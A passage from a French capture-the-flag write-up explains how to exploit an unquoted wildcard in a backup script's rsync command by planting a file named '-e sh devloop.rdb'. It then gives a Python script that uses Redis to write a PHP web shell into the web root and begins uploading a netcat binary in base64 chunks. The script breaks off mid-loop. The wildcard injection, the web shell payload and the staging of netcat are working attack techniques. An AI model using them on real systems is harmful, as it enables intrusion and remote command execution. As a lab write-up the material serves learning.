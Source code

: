```plain
```

Le flag ne nous est malheureusement pas accessible :'(  

On trouve en revanche un script */backup/backup.sh* plus intéressant car exploitable via l'utilisation d'astérisque non protégés :  

```bash
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```

[Ce document](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt) indique comment on peut exploiter la première commande rsync en créant deux fichiers.  

Le premier sera nommé *-e sh devloop.rdb* et sera vide, ce sera lui qui s'injectera dans la commande rsync.  

le second devra être nommé *devloop.rdb* et contiendra la commande que l'on souhaite faire exécuter.  

J'ai préféré automatiser toute cette partie de l'exploitation car ça commence à faire beaucoup de commandes et donc beaucoup de temps à passer...  

Voici l'une des premières versions du script :  

```python
import socket
import re
from urllib.parse import quote
from base64 import b64encode
import requests

md5_regex = re.compile(r"[a-f0-9]{32}")

sock = socket.socket()
sock.connect(('127.0.0.1', 6379))
sock.send(b'config set dir /var/www/html\r\n')
print(sock.recv(1024))
sock.send(b'config set dbfilename .devloop.php\r\n')
print(sock.recv(1024))
sock.send(b'set payload "<?php system($_GET[\'cmd\']); /*"\r\n')
print(sock.recv(1024))
sock.send(b'save\r\n')
print(sock.recv(1024))
sock.close()

sess = requests.session()
response = sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("md5sum /tmp/devloop_nc"))
if response.status_code == 404:
    print("Redis exploitation failed!")
    exit()

search = md5_regex.search(response.text)

if not search or search.group() != "43248ae1630f1e244fcec241ea5ad780":
    response = sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("rm /tmp/devloop_nc*"))
    with open("nc.traditional", "rb") as fd:
        buff = b64encode(fd.read())
        i = 0
        print("Uploading...")
        while True:
            data = buff[i:i+1024].decode()
            i += 1024
            cmd = "echo -n '{}' >> /tmp/devloop_nc.b64".format(data)
```